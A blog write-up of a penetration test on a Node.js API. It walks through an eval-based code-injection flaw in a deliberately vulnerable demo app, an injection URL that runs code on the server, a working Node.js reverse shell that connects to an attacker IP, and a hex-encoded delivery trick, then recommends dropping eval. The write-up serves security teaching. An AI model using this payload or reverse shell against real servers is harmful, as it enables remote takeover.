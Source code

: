 ```yaml
---
title: Reverse shell on a Node.js application
date: "2016-05-30"
author: Van-Duyet Le
tags:
- Nodejs
- Reverse shell
- Security
- Node.js
- vulnerable
modified_time: '2016-05-30T23:12:07.074+07:00'
slug: /2016/05/reverse-shell-on-nodejs-application.html
category: Javascript
description: How we obtained a Javascript reverse shell by exploiting a vulnerability on a Node.js application during a security assessment.
---
```


How we obtained a Javascript reverse shell by exploiting a vulnerability on a Node.js application during a security assessment.

## Introduction ##
We were tasked by a small web developer team to perform a security assessment of their mobile app backend which is a REST API.

The architecture is rather simple there is only three Linux servers.

- Node.js
- MongoDB
- Redis

First we performed a few arbitrary tests without access to the source code and we discovered that a few unexpected input at some endpoints would crash the backend application.
We also noticed that the redis server was accessible from the WAN without authentication.

Our next step was to review the Node.js API code and understand the crashes.

## Simplified vulnerable application ##
We created this small Node.js application with the vulnerable function if you want to try to exploit it yourself.
This Node.js web server will wait for a query such as `http://target.tld//?name=do*` and search for animal names matching that query.

```
'use strict'
const http = require('http');
const url = require('url');
const path = require('path');

const animalsJSON = path.join(__dirname, 'animals.json');
const animals = require(animalsJSON);

function requestHandler(req, res) {
    let urlParams = url.parse(req.url, true);
    let queryData = urlParams.query;
    res.writeHead(200, {"Content-Type": "application/json"});

    if (queryData.name) {
        let searchQuery = stringToRegexp(queryData.name);
        let animalsResult = getAnimals(searchQuery);
        res.end(JSON.stringify(animalsResult));
    } else {
        res.end();
    }
}

function getAnimals(query) {
    let result = [];

    for (let animal of animals) {
        if (query.test(animal.name))
            result.push(animal);
    }

    return result;
}

function stringToRegexp(input) {
    let output = input.replace(/[\[\]\\\^\$\.\|\?\+\(\)]/, "\\$&");
    let prefix, suffix;

    if (output[0] == '*') {
        prefix = '/';
        output = output.replace(/^\*+/g, '');
    } else {
        prefix = '/^';
    }

    if (output[output.length - 1] == '*') {
        suffix = '/i';
        output = output.replace(/\*+$/g, '');
    } else {
        suffix = '$/i';
    }
    output = output.replace(/[\*]/, '.*');

    return eval(prefix + output + suffix);
}

const server = http.createServer(requestHandler);
server.listen(3000);
```

```
[
    {"name": "Dinosaur"},
    {"name": "Dog"},
    {"name": "Dogfish"},
    {"name": "Dolphin"},
    {"name": "Donkey"},
    {"name": "Dotterel"},
    {"name": "Dove"},
    {"name": "Dragonfly"},
    {"name": "Duck"}
]
```

## The vulnerability ##
After a few minutes of analyzing the buggy endpoints in the code we noticed a bad practice issue that could lead to remote code execution.
The `stringToRegexp` function is evaluating user input to create a `RegExp` object and use it to find elements in an array.

```
return eval(prefix + output + suffix); // we control output value
```

We can insert our own Javascript code in the output variable and execute it.
The stringToRegexp function will escape some characters and the output value will be evaluated.

```
["./;require('util').log('Owned');//*"]
```

Visiting the address below will print a message on the server terminal.
`http://target.tld/?name=["./;require('util').log('Owned');//*"]`

From there it would be nice to execute code to have an interactive shell such as `/bin/sh`.

## The Node.js reverse shell ##
The Javascript code below is a Node.js reverse shell.
The payload will spawn a /bin/sh shell, create a TCP connection to the attacker and attach the shell standard streams to it.

```
(function(){
    var net = require("net"),
        cp = require("child_process"),
        sh = cp.spawn("/bin/sh", []);
    var client = new net.Socket();
    client.connect(8080, "10.17.26.64", function(){
        client.pipe(sh.stdin);
        sh.stdout.pipe(client);
        sh.stderr.pipe(client);
    });
    return /a/; // Prevents the Node.js application form crashing
})();
```

To execute the payload gracefully we used a little trick, we encoded our reverse shell payload to hexadecimal and used the Node.js Buffer object to decode it.
`http://target.tld/?name=["./;eval(new Buffer('PAYLOAD', 'hex').toString());//*"]`

## Conclusion ##
It's highly recommended to avoid using the `eval` function in a Javascript project.
The fix was rather simple, they started using using the `RegExp` object directly.
See origin post here: [https://wiremask.eu/writeups/reverse-shell-on-a-nodejs-application/](https://wiremask.eu/writeups/reverse-shell-on-a-nodejs-application/)
